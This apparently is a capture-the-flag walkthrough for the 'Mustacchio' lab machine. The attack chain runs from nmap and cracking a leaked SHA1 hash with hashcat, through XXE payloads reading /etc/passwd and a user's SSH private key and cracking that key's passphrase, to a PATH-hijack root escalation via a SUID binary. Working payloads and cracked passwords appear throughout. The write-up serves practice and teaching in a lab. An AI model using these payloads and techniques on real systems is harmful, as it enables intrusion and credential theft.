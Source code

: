 let's start with a nmap scan. normal nmap scan found port 80 webserver called Mustacchio and port 22 ssh open running ubuntu. 

Let's try to running a full nmap scan for see more ports are open above the port 1000.

---web---

```
# Nmap 7.91 scan initiated Sat Jun 12 14:57:25 2021 as: nmap -sC -sV -p- -oN scans/nmap-allports 10.10.236.36
Nmap scan report for 10.10.236.36
Host is up (0.15s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d3:9e:50:66:5f:27:a0:60:a7:e8:8b:cb:a9:2a:f0:19 (RSA)
|   256 5f:98:f4:5d:dc:a1:ee:01:3e:91:65:0a:80:52:de:ef (ECDSA)
|_  256 5e:17:6e:cd:44:35:a8:0b:46:18:cb:00:8d:49:b3:f6 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Mustacchio | Home
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun 12 15:07:37 2021 -- 1 IP address (1 host up) scanned in 611.67 seconds
```
We found nginx page in port 8765. let's see what is in there. 

---login----

Looks like we found a login page. Let's put that port away and let's enumerate port 80 first. After run gobuster I found this directory on port 80. **http://10.10.236.36/custom/js/** In this you can see this **user.bak** file.

---user.bak---

After we open it we can see this hash.

admin:1868e36a6d2b17d4c2745f1659433a54d4bc5f4b

Let's crack it through **hashcat**. Here is the my command to hashcat.

```bash
hashcat -a 0 -m 100 hash1.txt /opt/seclist/rockyou.txt
```
Output :

```
Dictionary cache hit:
* Filename..: /opt/seclist/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

1868e36a6d2b17d4c2745f1659433a54d4bc5f4b:bulldo***
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: SHA1
Hash.Target......: 1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
Time.Started.....: Sat Jun 12 16:34:48 2021 (0 secs)
Time.Estimated...: Sat Jun 12 16:34:48 2021 (0 secs)
Guess.Base.......: File (/opt/seclist/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  5658.1 kH/s (0.24ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 688128/14344385 (4.80%)
Rejected.........: 0/688128 (0.00%)
Restore.Point....: 684032/14344385 (4.77%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: bultaco -> blah2007

Started: Sat Jun 12 16:34:35 2021
Stopped: Sat Jun 12 16:34:50 2021
```
Let's login in with our credentials. After login we can see this page.

----after login---

when we look at our hint. It says look at the page source. You can find this html comment on page source.

--hint---

when we go to that **dontforget.bak**. you can see this xml code. 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```
Looks like we can execute a xxe attack. After some time I got a /etc/passwd.

Documentation : https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>

  <com>&xxe;</com>
</comment>
```

---passwd---

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa">]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>

  <com>&xxe;</com>
</comment>
```
---id rsa--------

Now we got the id_rsa. Look into the page source for proper formatted key. 

---id_rsa page--------

Looks like we need a passphrase to id_rsa. Let's crack it with **john the ripper**. First you need to make a hash throught ssh2jhon. If you don't know how to do it. 
This blog post will help you :
https://null-byte.wonderhowto.com/how-to/crack-ssh-private-key-passwords-with-john-ripper-0302810/

```bash
┌─[✗]─[visith@parrot]─[~/CTF/thm/Mustacchio]
└──╼ $john --wordlist=/opt/seclist/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
urieljames       (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:02 DONE (2021-06-13 09:19) 0.4566g/s 6548Kp/s 6548Kc/s 6548KC/sa6_123..*7¡Vamos!
Session completed
```
We got our passphrase. Let's ssh to our machine.

```bash
ssh -i id_rsa barry@10.10.24.119
Enter passphrase for key 'id_rsa': urieljames
```
In **/home/barry** we can get our user flag. Let's get into the root. 

```bash
barry@mustacchio:~$ find / -perm -4000 2>/dev/null
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/at
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/newuidmap
/usr/bin/gpasswd
/home/joe/live_log
/bin/ping
/bin/ping6
/bin/umount
/bin/mount
/bin/fusermount
/bin/su
```
```bash
barry@mustacchio:~$ cd /home/joe
barry@mustacchio:/home/joe$ ls -la
total 28
drwxr-xr-x 2 joe  joe   4096 Jun 12 15:48 .
drwxr-xr-x 4 root root  4096 Jun 12 15:48 ..
-rwsr-xr-x 1 root root 16832 Jun 12 15:48 live_log

```
so what we can do, let’s change the path variable and create a tail with some malicious code to get us root. let’s do it.

so first I’m going to create a file called tail and create a script that gives us a root shell

echo /bin/bash -i > tail
export PATH=/tmp:$PATH
 chmod +x tail
cd joe/
./live_log 

```bash
barry@mustacchio:/home/joe$ cd /tmp
barry@mustacchio:/tmp$ ls
barry@mustacchio:/tmp$ echo /bin/bash -i > tail
barry@mustacchio:/tmp$ export PATH=/tmp:$PATH
barry@mustacchio:/tmp$ chmod +x tail
barry@mustacchio:/tmp$ cd /home/joe
barry@mustacchio:/home/joe$ ./live_log 
root@mustacchio:/home/joe# ls
live_log
root@mustacchio:/home/joe# cd /root
root@mustacchio:/root# ls
root.txt
root@mustacchio:/root# cat root.txt


```